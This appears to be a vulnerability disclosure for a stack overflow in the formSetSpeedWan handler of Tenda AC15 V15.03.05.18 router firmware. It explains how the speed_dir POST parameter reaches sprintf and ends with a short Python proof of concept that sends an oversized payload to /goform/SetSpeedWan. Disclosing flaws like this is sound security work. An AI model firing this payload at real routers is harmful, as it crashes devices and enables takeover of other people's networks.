 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The Tenda AC15 V15.03.05.18 firmware has a stack overflow vulnerability in the `formSetSpeedWan` function. The `v7` variable receives the `speed_dir` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided  `v7` can trigger this security vulnerability.

![image-20240305231334076](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305231334076.png)

![image-20240314225448098](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314225448098.png)

![image-20240305231353586](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305231353586.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetSpeedWan"
payload = b"a"*1000

data = {"speed_dir": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314230149114](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314230149114.png)
